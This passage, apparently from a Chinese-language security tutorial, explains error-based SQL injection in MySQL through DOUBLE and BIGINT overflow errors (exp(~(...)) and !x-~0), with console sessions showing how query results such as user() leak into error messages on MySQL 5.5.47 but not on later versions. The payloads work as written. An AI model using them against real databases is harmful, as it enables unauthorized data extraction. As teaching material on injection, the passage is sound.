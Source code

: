 我们知道，如果一个查询成功返回，则其返回值为0，进行逻辑非运算后可得1，这个值是可以进行数学运算的：
```shell
mysql> select (select * from (select user())x);
+----------------------------------+
| (select * from (select user())x) |
+----------------------------------+
| root@localhost                   |
+----------------------------------+
1 row in set (0.00 sec)

mysql> select !(select * from (select user())x);
+-----------------------------------+
| !(select * from (select user())x) |
+-----------------------------------+
|                                 1 |
+-----------------------------------+
1 row in set (0.01 sec)

mysql> select !(select * from (select user())x)+1;
+-------------------------------------+
| !(select * from (select user())x)+1 |
+-------------------------------------+
|                                   2 |
+-------------------------------------+
1 row in set (0.00 sec)
```

同理，利用exp函数也会产生类似的溢出错误：
```shell
mysql> select exp(709);
+-----------------------+
| exp(709)              |
+-----------------------+
| 8.218407461554972e307 |
+-----------------------+
1 row in set (0.00 sec)

mysql> select exp(710);
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(710)'
```

注入姿势：
```shell
mysql> select exp(~(select*from(select user())x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'
```

利用这一特性，再结合之前说的溢出报错，就可以进行注入了。这里需要说一下，经笔者测试，发现在mysql5.5.47可以在报错中返回查询结果：
```shell
mysql> select (select(!x-~0)from(select(select user())x)a);
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'
```

而在mysql>5.5.53时，则不能返回查询结果
```shell
mysql> select (select(!x-~0)from(select(select user())x)a);
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not(`a`.`x`)) - ~(0))'
```

